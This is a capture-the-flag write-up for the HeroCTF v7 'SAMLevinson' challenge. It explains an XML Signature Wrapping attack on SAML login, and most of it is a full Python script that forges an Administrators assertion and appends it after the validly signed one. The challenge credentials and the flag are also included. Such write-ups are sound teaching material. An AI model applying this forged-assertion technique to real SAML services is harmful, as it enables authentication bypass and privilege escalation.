


## HeroCTF v7 - SAMLevinson Write-up



### Step 1: Initial Analysis and Reconnaissance

The challenge provides us with a "Sam Levinson fan club" website protected by SAML authentication. We are given a functional account for the Identity Provider (IDP).

*   **Service Provider (APP):** `http://web.heroctf.fr:8080`
*   **Identity Provider (IDP):** `http://web.heroctf.fr:8081`
*   **Credentials:** `user` / `oyJPNYd3HgeBkaE%!rP#dZvqf2z*4$^qcCW4V6WM`

Visiting the App leads us to a login page. Clicking "SSO Login" redirects us to the IDP. After logging in with the provided credentials, we are redirected back to the App, which displays a message stating we are authenticated but lack the privileges to view the flag (Role: `Users`).

Our goal is to escalate our privileges to `Administrators`.

### Step 2: Exploit Strategy - XML Signature Wrapping (XSW)

We initially attempted a **Signature Exclusion** attack (simply modifying the role to `Administrators` and removing the signature), but the Service Provider returned a `403 Forbidden`. This indicates that the server explicitly checks for a valid cryptographic signature.

Since we cannot forge a valid signature (we don't have the private key), we must use **XML Signature Wrapping (XSW)**.

The vulnerability relies on a discrepancy between how the XML parser verifies the signature and how the application processes the data:
1.  The application verifies the signature of the **Original Assertion** (which is valid).
2.  However, the application logic processes the data from a **Forged Assertion** that we inject.

For this specific challenge, the **"Append Strategy"** works: we inject our malicious assertion *after* the valid one.

### Step 3: Developing the Exploit Script

We wrote a Python script to automate the attack flow. Manual exploitation is difficult due to the complexity of the XML encoding and strict timeouts.

**The Exploit Logic:**
1.  **Initiate Flow:** Access the APP to generate a valid `SAMLRequest`.
2.  **Login:** Automate the POST request to the IDP with the provided credentials to capture a valid, signed `SAMLResponse`.
3.  **Construct the Malicious XML:**
    *   Extract the valid `<saml:Assertion>` (Role: Users).
    *   Create a copy of it ("Evil Assertion").
    *   **Modify the Evil Assertion:**
        *   Generate a new unique `ID`.
        *   Change the role from `Users` to `Administrators`.
        *   **Strip the signature** from this evil copy (since modifying it invalidated the signature anyway).
    *   **Inject:** Place the Evil Assertion *immediately after* the Original Assertion inside the `<samlp:Response>`.
4.  **Send:** Base64 encode the payload and send it to the APP.

### Step 4: The Exploit Code (`solve.py`)

Here is the complete solution script:

```python
import requests
import re
import base64
import urllib.parse
import uuid
from bs4 import BeautifulSoup

# Configuration
APP_URL = "http://web.heroctf.fr:8080"
USERNAME_FIELD = "user"
USERNAME = "user"
PASSWORD = "oyJPNYd3HgeBkaE%!rP#dZvqf2z*4$^qcCW4V6WM"

session = requests.Session()
session.headers.update({
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/120.0.0.0 Safari/537.36"
})

print(f"[*] Step 1: Connecting to {APP_URL}/flag ...")
r = session.get(f"{APP_URL}/flag")

if "8081" not in r.url:
    print(f"[-] Error: Not redirected to IDP. URL: {r.url}")
    exit()

# Capture original query parameters to maintain session context
original_query = urllib.parse.urlparse(r.url).query

# Parse the login form
soup = BeautifulSoup(r.text, 'html.parser')
form = soup.find('form')
action = form.get('action')
post_url = urllib.parse.urljoin(r.url, action) if action else r.url

if "SAMLRequest" not in post_url:
    post_url += ("&" if "?" in post_url else "?") + original_query

# Prepare login payload
payload = {}
for input_tag in form.find_all('input'):
    name = input_tag.get('name')
    if name:
        payload[name] = input_tag.get('value', '')

payload[USERNAME_FIELD] = USERNAME
payload['password'] = PASSWORD

print(f"[*] Step 2: Logging in via POST to: {post_url}")
r_login = session.post(post_url, data=payload)

if 'name="SAMLResponse"' not in r_login.text:
    print("[-] Login failed. No SAMLResponse found.")
    exit()

print("[+] Login successful! Captured Valid SAMLResponse.")

# Extract details for the next step
soup_login = BeautifulSoup(r_login.text, 'html.parser')
saml_input = soup_login.find('input', {'name': 'SAMLResponse'})
acs_url = soup_login.find('form').get('action')
relay_state = soup_login.find('input', {'name': 'RelayState'}).get('value', '')
saml_b64 = saml_input.get('value')

xml_str = base64.b64decode(saml_b64).decode('utf-8')

print("[*] Step 3: Performing XSW Attack (Append Strategy)...")

# Extract the Original Assertion
assertion_match = re.search(r'(<saml:Assertion.*?<\/saml:Assertion>)', xml_str, re.DOTALL)
if not assertion_match:
    print("[-] Error: Could not regex parse Assertion.")
    exit()

original_assertion = assertion_match.group(1)

# Prepare the "Evil" Assertion
evil_assertion = original_assertion

# 1. Change ID to avoid collision
new_id = f"evil-{uuid.uuid4()}"
evil_assertion = re.sub(r'ID="[^"]+"', f'ID="{new_id}"', evil_assertion, count=1)

# 2. Escalate Privileges
evil_assertion = evil_assertion.replace("Users", "Administrators")

# 3. Strip Signature from the evil copy
evil_assertion = re.sub(r'<ds:Signature.*?</ds:Signature>', '', evil_assertion, flags=re.DOTALL)

print("[+] Evil Assertion prepared (ID changed, Role Admin, Signature stripped).")

# Injection: Original + Evil (Append Strategy)
final_xml = xml_str.replace(original_assertion, original_assertion + evil_assertion)

new_saml_b64 = base64.b64encode(final_xml.encode('utf-8')).decode('utf-8')

print(f"[*] Step 4: Sending XSW payload to {acs_url}")

final_payload = {
    "SAMLResponse": new_saml_b64,
    "RelayState": relay_state
}

r_final = session.post(acs_url, data=final_payload)

# Check for the flag
if "Hero{" in r_final.text:
    flag = re.search(r'(Hero{.*?})', r_final.text).group(1)
    print(f"FLAG: {flag}")
elif "Redirecting" in r_final.text:
    print("[*] Redirect detected. Following...")
    r_dash = session.get(f"{APP_URL}/flag")
    if "Hero{" in r_dash.text:
        flag = re.search(r'(Hero{.*?})', r_dash.text).group(1)
        print(f"\nFLAG: {flag}\n")
    else:
        print("[-] Flag not found after redirect.")
else:
    print("[-] Flag not found.")
    with open("xsw_append_fail.html", "w", encoding="utf-8") as f:
        f.write(r_final.text)
    print("Saved response to xsw_append_fail.html")
```

### Step 5: Execution and Flag

Running the script successfully bypasses the authentication logic. The server verifies the signature of the first assertion but logs us in using the role from the second (injected) assertion.



### Flag
Flag: `Hero{S4ML_3XPL01T_FR0M_CR3J4M}`